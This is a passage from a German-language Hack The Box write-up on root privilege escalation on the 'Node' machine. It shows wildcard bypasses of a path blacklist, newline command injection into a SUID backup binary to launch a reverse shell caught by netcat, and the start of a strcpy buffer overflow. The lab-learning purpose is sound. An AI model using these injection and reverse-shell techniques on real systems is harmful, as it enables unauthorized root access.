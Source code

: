 Jetzt gibt es verschiedene Methoden wie wir vorgehen können.

## 1\. Wildcards

Das ist die einfachste Methode. Wir wollen an den Inhalt von **/root/root.txt**, aber **/root** ist auf der Blacklist. Um diese zu entgehen können wir [Wildcards](https://wiki.ubuntuusers.de/Bash/#Wildcards) benutzen.

```shell
tom@node:/usr/local/bin$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 /r??t/r??t.txt
```

oder

```shell
tom@node:/usr/local/bin$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508 /r*t/r*t.txt
```

## 2\. Newline

Zuerst ändern wir den Port bei unserem Reverse Shell Skript **/tmp/reverse.js**. Dann lassen wir NetCat diesen Port abhören.

```shell
nc -lnvp 4445
```

Jetzt können wir als 3\. Argument **\n** benutzen, damit **system()** einen weiteren Befehl ausführt. Z.B. unser Skript.

```shell
tom@node:/usr/local/bin$ backup -q a01a6aa5aaf1d7729f35c8278daae30f8a988257144c003f8b12c5aec39bc508
```

```shell
nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.10.14.52] from (UNKNOWN) [10.10.10.58] 55838
whoami
root
python -c "import pty; pty.spawn('/bin/bash')"

root@node:/usr/local/bin# cat /root/root.txt
172#########ZENSIERT#########be0

root@node:/usr/local/bin# cat /home/tom/user.txt
e11#########ZENSIERT#########1b1
```

## 3\. Buffer Overflow

Es wird mehrmals **strcpy** aufgerufen, allerdings wird nicht die Begrenzung überprüft. In der **displayTarget** Funktion tritt dann ein **overflow** und ein **segfault** auf. Damit dies passiert müssen folgende 3 Kriterien erfüllt werden.
